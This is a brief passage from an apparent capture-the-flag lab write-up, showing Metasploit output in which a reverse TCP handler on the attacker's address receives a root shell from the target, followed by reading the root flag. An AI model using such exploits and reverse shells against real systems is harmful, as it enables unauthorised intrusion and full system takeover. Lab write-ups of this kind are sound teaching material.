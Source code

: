     :::text
    msf5 exploit(linux/remote/46984) > run
    [*] Started reverse TCP handler on 10.10.14.13:4444 
    [+] Session cookie: a2ff4450e3a344159ab1fd464db52855
    [*] Attempting to execute the payload...
    [*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.160:32916) at 2019-11-20 14:39:02 +0100

    id
    uid=0(root) gid=0(root) groups=0(root)
    cat root.txt
    cat /root/root.txt
    a2577<redacted>

# Wrapping up

This box
